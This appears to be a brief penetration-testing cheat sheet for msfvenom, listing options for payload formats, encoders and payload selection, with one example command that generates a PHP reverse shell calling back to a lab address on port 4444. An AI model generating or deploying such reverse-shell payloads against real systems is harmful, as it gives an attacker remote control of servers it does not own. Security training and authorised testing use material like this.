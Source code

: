 ### Options
- `--list formats` shows formats of payloads (ex. `.exe`, `.py`, etc.)
- `-e` encodes payload (ex. `php/base64`)
- `-p` payload to use
### Examples
###### PHP Reverse Shell
```
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=4444 -f raw > reverse_shell.php
```